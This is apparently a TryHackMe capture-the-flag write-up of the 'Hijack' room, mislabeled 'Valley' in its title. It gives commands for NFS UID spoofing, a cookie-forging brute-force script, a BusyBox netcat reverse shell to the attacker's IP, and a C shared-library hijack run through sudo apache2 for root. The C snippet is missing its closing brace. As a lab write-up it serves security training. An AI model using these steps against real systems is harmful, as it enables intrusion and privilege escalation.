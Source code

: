 # TryHackMe Writeup — [Valley](https://tryhackme.com/room/hijack)

## Description

Hijack is a practical room focused on exploiting NFS services and misconfigurations in web applications. During the process, the player learns techniques related to NFS exploitation, web application analysis, bypassing filters, abusing sudo misconfigurations, and privilege escalation through library hijacking.

## Scanning & Enumeration
Port scanning revealed the following services:
```python
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
2049/tcp open  nfs
```
The website itself provided little information—just a login form and an admin page, only accessible to administrators.

## Exploiting NFS
Using ```showmount -e <IP>```, we found an open NFS share:
```python
/mnt/share *
```
To access its contents, we created a local user with UID and GID 1003:
```python
sudo useradd hijack
sudo usermod -u 1003 hijack
sudo groupmod -g 1003 hijack
su hijack
```
After mounting the share, we discovered the file for_employees.txt containing FTP credentials.

## FTP Access
Connecting to the FTP server revealed two interesting files:

* ```.from_admin.txt``` — a message from the admin about a "safe" password list.

* ```.passwords_list.txt``` — a probable password list.

## Web Exploitation
Upon registering a new account, the website generated a session cookie in the format ```USERNAME:HASH (MD5)```. Using that, we generated our own cookies to perform brute-force:

This script can help us with that
```python
import hashlib
import base64

with open('passwords_list.txt', 'r') as f:
    lines = f.readlines()

for line in lines:
    stripped_line = line.strip()
    
    hashed_line = hashlib.md5(stripped_line.encode('utf-8')).hexdigest()
    
    modified_hash = 'admin:' + hashed_line
    
    encoded_hash = base64.b64encode(modified_hash.encode('utf-8'))
    
    print(encoded_hash.decode('utf-8'))
```

```python
python3 hijack.py > cookies.txt
wfuzz -u http://<target_ip>/administration.php -w cookies.txt -X POST -b 'PHPSESSID=FUZZ' --hh 51
```
> We obtained a valid PHPSESSID for the administrator, granting access to ```administration.php```.

## Command Execution & Reverse Shell
By bypassing filtering with ```&id```, we confirmed that commands were executed as ```www-data```.

Reverse shell using BusyBox:
```python
$(busybox nc <your-ip> 1234 -e /bin/bash)
```
## User Access (Rick)
Inside ```config.php```, we found credentials for the user ```rick```, allowing us to access ```user.txt```.

## Privilege Escalation to root
The output of ```sudo -l``` revealed:
```python
(root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
## Vulnerability Explanation
Apache is run with root privileges → we can inject a malicious shared object (.so) file. Using the ```__attribute__((constructor))``` function, our code is executed before Apache starts, providing root access.

## Example exploit code:
```python
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
```
Compiling and exploiting:
```python
gcc -o /tmp/libcrypt.so.1 -shared -fPIC malware.c
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
> We successfully obtained root and read ```root.txt```.

This room provides excellent practice in enumeration, exploitation of services, and privilege escalation techniques.
